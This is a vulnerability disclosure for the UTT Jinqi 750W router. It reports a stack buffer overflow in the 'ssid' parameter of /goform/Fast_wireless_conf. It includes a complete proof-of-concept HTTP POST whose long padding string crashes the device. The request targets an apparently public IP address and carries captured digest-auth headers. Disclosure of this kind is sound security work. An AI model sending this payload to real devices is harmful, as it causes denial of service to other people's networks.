



# Information

**Vendor of the products:**   UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Affected products:** 进取 750W

**Affected firmware version:**  <=v5v3.2.2-191225

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌]([UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/productdetail.php?modelid=230))

# Overview

The UTT Jinqi 750W router has a serious overflow vulnerability. An attacker can control the parameter by accessing the router/goform/Fast_wireless_conf, which can cause a buffer overflow. Specifically, a denial of service attack can be achieved through "strcpy(v3 + 40, Var);".

# Vulnerability details

The API for invoking the function



Here you can control the ssid  parameter to achieve stack overflow



# POC

```
POST /goform/Fast_wireless_conf HTTP/1.1
Host: 111.39.48.97:8888
Content-Length: 55
Cache-Control: max-age=0
Authorization: Digest username="admin", realm="UTT", nonce="86f61babc1b3fb88dd678ece275f432a", uri="/goform/NTP", algorithm=MD5, response="6f45f82d40810e5ae22bf6ab74c0c160", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=00000154, cnonce="3a22b7e07da8289a"
Origin: http://111.39.48.97:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://111.39.48.97:8888/SysClock.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: utt_bw_rdevType=; language=zhcn; td_cookie=2145275249
Connection: close

ssid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

